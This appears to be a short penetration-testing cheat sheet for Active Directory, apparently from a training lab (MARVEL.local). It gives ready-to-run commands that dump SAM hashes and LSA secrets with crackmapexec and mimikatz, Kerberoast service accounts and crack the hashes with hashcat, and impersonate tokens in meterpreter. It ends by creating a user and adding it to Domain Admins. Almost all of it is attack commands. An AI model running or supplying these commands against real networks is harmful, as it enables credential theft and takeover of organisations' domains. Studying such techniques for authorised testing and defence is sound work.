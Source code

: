Reminder! Cheatsheet of crackmapexec

--local-auth : authenticate locally to each target

--sam : dump SAM hashes from target systems.

--lsa : dump LSA secrets from target systems.

--shares: enumerate shares and access

-L : List available modules for each protocol

-M : Specify module

How to use **available** module for crackmapexec?
```bash
crackmapexec smb 192.168.138.0/24 -u administrator -H [USER-HASH] --local-auth -M lsassy
```

**Reminder**! If you want to access database of crackmapexec, you just need to use **cmedb** command



Kerberoasting=>

1.Get SPNs 
```bash
python GetUserSPNs.py MARVEL.local/fcastle:Password1 -dc-ip [DC_IP] -request
```

2.Crack the hash
```bash
hashcat -m 13100 hash.txt /usr/share/wordlists/rockyou.txt
```

Token Impersonation=>

To see all tickets on meterpreter
```bash
meterpreter > list_tokens -u
```

To impersonate user:
```bash
meterpreter > impersonate_token MARVEL\\administrator
```

To dump hashes:
```bash
mimikatz(powershell) # privilege::debug
mimikatz(powershell) # LSADump::LSA /patch
```

How to add a new user:
```powershell
net user /add hawkeye Password1@ /domain
```

How to add user into group:
```powershell
net group "Domain Admins" hawkeye /ADD /DOMAIN
```
